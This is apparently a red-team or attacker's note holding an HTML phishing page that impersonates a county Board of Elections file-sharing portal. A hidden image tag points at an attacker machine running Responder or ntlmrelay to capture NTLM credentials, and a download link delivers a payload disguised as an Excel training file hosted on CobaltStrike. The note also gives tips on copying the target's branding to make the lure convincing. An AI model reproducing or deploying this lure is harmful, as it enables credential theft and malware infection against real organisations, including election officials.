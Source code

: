 ![7f6ec31a4c115107ebbc9a714119d2f4.png](../_resources/7f6ec31a4c115107ebbc9a714119d2f4.png)
Have a machine running responder (optional ntlmrelay) at the adress in \<img src="//...

background-image can be pulled from their public infrastructure

the icon image should be appropriate for the payload type, in this case grabbed from https://www.cleanpng.com/png-microsoft-excel-computer-icons-spreadsheet-compute-1433188/preview.html

In CobaltStrike, host the files as:
/NetworkExchange
/uploads/\<payload>
/content/\<icon>
/content/\<background>

````
<!DOCTYLE html>
<html>
<head>
<title>Network Exchange</title>
</head>
<body style="background-color: #3f3f3f">
    <div class="container-fluid">
        <div class="jumbotron" style="max-height: 275px">
<style>
body {
	background-image: url('http://10.100.1.143/content/BallotBoxBackgroundNoBlur.jpg');
	background-repeat:no-repeat;
	background-size:cover;
}
</style>
<img src="//10.100.1.146/NetworkExchange" style="display: none;"/>
<div style="background-color:  ghostwhite;
			opacity:  0.7;
			text-align: center;
            font-size: 20px; 
            padding: 5px; 
            border: 1px; 
            margin: 10px;">
<h1>Butler County Board of Elections</h1>
<h2>Network Sharing Exchange</h2>
<h3>Temporary Share 00126</h3>
<p>Available files are listed below:</p>
<a href="http://10.100.1.143/uploads/2021_BCBoE_Training_Status.xls" download>
	<img src="http://10.100.1.143/content/excel.png" alt="Download" width="104" height="52">
	<p>BCBoE Training Compliance</p>
</a>
</div>
</body>
</html>
````